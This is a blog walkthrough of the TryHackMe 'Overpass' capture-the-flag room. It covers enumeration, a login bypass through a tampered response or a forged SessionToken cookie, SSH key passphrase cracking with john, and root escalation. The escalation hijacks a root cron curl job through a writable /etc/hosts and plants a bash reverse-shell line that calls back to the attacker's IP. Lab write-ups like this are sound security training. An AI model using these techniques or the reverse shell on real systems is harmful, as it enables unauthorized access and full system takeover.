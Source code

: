 ```yaml
---
layout: post
published: true
title: "Writeup TryHackMe - Overpass | Walkthrough"
date: 2020-07-24 14:32:20 +0300
description: Overpass room of Tryhackme | Writeups.
excerpt: "Walkthrough of Overpass room - Tryhackme"
image: "https://jaiguptanick.github.io/Blog/images/overpass/overpass.png"
sitemap:
    priority: 0.8
    lastmod: 2020-07-24
    changefreq: monthly
---
```


<style>
/* This stylesheet sets the width of all images to 100%: */
img {
  width: 90%;
}
</style>

<h2 align="center" >Overpass - Tryhackme Walkthrough </h2>
---
Here is a walkthrough of the [TryHackMe](https://tryhackme.com/) room “Overpass.” If you haven’t already completed the challenge, you can do so [here](https://tryhackme.com/room/overpass).

>Hello, today we are going to solve an exciting room Overpass, which is quite different for me than other challenges. It is worth solving this room as it contains some essential Owasp Top 10 vulnerability, i.e Broken Authentication. Also, using some automated Privilege Escalation scripts like linpeas.sh makes it more interesting.

## Enumeration
---
<h3>Nmap</h3>

![Overpass Walkthrough nmap]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/nmap.png)

As always starting with a nmap scan.Only two 22 with SSH and 80 with Http are open.Rest are filtered.Initially no clue on SSH so moving to Enumerate Http.
Simultaneously starting nikto scan till then but got nothing unusual.

![OverpassWalkthrough nikto]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/nikto.png)

Moving to the main website:-

![Overpass writeup website]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/website.png)

This shows a normal webpage with some information about overpass password manager.There are only two pages linked with homepage which seems usual,so starting a directory scan.
<h3>Dirsearch Scan</h3>

![Overpass room dirscan]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/dirsearch.png)
Directory scanning showed many pages but /admin/ seems interesting.
<h3>Logging In via Broken Authentication</h3>

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/adminpage.png)

Now no clue on credentials, also brute-forcing is not the solution as mentioned in the hint.

Just enumerating the files associated with the source code shows us an exciting file named login.js containing the function used in the login form on the /admin page.

![Overpass_tryhackme_logincode]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/logincode.png)

The function login() in the box is the vulnerable code that will let us bypass the login form. The variable creds take the credentials, and variable response sends them to /api/login for validation, and the statusOrCookie variable takes the response. Till here, everything seems perfect now in the Conditional statement; it checks if the response from the server is "Incorrect Credentials" then it will not allow access otherwise, it will set a cookie named "SessionToken" to statusOrCookie and redirect us to the admin panel. Here lies the vulnerability as a user can change the response of /api/login from "Incorrect Credentials" to anything else using BurpSuite and trick the server to run the else part of the code.<br>Lets see practically:-
<br>Intercepting request using burp:

![Overpass solution burpsuite]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/burp1.png)

Now, as we want to change the response, not the request so choosing Action > Do intercept > Response to the request.

![walkthrough_Overpass_burp]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/doresponse.png)

Forwarding the request to get the response:

![writeup Overpass response]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/response1.png)

We get the response as expected now change it to anything else or delete "Incorrect Credentials" and again forward the request.
Now refresh the page to get access.<br>
Wow! we got access to the page without the credentials.

![Overpass solutions]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/loggedin.png)

<h3><u><b>BONUS</b></u></h3>
---
There is an alternate method to login as the login.js is creating a cookie in case of successfully logging in.
We can manually create the cookie on the login page named "SessionToken" and assign it any value as there is no code to validate our cookie.

![Overpass_tryhacme_cookies]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/cookie.png)

Refresh the page to successfully logging in.

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/logged_via_cookie.png)

Now Moving to page provides majorly 2 information:
``` 
1.There is a user name james.
2.The ssh key to login via SSH.
```
Saving the Key to a file and reduce its permission using ```chmod 400 james.key ``` and then connecting via SSH:

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/ssh_fail.png)

OHH!! It is asking for the passphrase for the provided key. As No passphrase is found.Now bruteforcing is the only option.
using <b>ssh2john.py</b> to convert to hash that john can crack using rockyou.txt

![Overpass_walkthrough]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/johncrack.png)

It successfully found the passphrase . Now we can log in via SSH.

![ssh_Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/james_ssh_success.png)

Get the user flag and submit.

![Overpass_flag]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/flag1.png)

<h3>Privilege Escalation</h3>

This part is really interesting as none of the manual methods worked.
``` 
1.Can't run sudo -l as don't know james password.
2.SUID bit can be cheched by "find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null " but are also not intersting.
```
Using automated Tools like linpeas.sh initially not helped until I saw the room tag mentioned "cron".

![Overpass_root_curl]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/root_curl.png)

User root is connecting to a URL using curl, moving down to check more to results of linpeas shows writable access to file /etc/hosts which is usually only writable by root. 

![Overpass_etc_hosts]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/etc.png)

Since curl is used by root so if we somehow exploit it we can get the root access.The curl command from cronjob is using a "overpass.thm" as the hostname and we have write access to the hosts file. Meaning we can replace the hostname to make the cronjob think that the hostname is from our IP Address which will let it connect to our given IP address.
Let us do this practically:

![Overpass_python_server]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/python_server.png)
```
1. We need to start a python server locally using "python3 -m http.server 80" choose port 80 as it is the default port.
2. Make the same directory as "/downloads/src/buildscript.sh" 
3. Finally a file named buildscript.sh with the reverse shell , i used it from pentestermonkey.net "bash -i >& /dev/tcp/10.9.19.190/1234 0>&1"
4.Now start a netcat listener locally to which the Box will connect.
5. At last replace the IP of the /etc/hosts of overpass.thm to our own connecting IP.
6. All done now wait a few seconds till it connects back to us via nc listener due to cronjob assigned.
```

![Overpass_flag2]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/flag2.png)

Finally, We got a connection from the Box as ROOT. It was really a nice room containing many fundamentals, and I enjoyed solving it and writing its walkthrough.
<br>
<br>

<i>Thanks for your patience, I hope you enjoyed reading. Happy Hacking... </i>
